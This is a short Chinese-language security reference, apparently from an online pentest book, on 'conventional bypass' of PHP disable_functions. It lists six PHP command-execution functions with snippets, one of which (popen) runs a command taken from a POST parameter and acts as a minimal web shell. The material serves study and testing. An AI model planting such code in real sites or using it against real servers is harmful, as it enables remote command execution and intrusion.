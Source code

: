 # 常规绕过

> 原文：[http://book.iwonder.run/安全技术/Disable functions/常规绕过.html](http://book.iwonder.run/安全技术/Disable functions/常规绕过.html)

**1\. exec**

```
<?php
  echo exec('whoami');?> 
```

**2\. shell_exec**

```
<?php
  echo shell_exec('whoami');?> 
```

**3\. system**

```
<?php
  system('whoami');?> 
```

**4\. passthru**

```
<?php
  passthru("whoami");?> 
```

**5\. popen**

```
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
  while(!feof($handle))
  {     echo fread($handle, 1024);  //fread($handle, 1024);
  }  
  pclose($handle);?> 
```

**6\. proc_open**

```
<?php
  $command="ipconfig";
  $descriptorspec = array(1 => array("pipe", "w"));
  $handle = proc_open($command ,$descriptorspec , $pipes);
  while(!feof($pipes[1]))
  {     echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
  }?> 
```

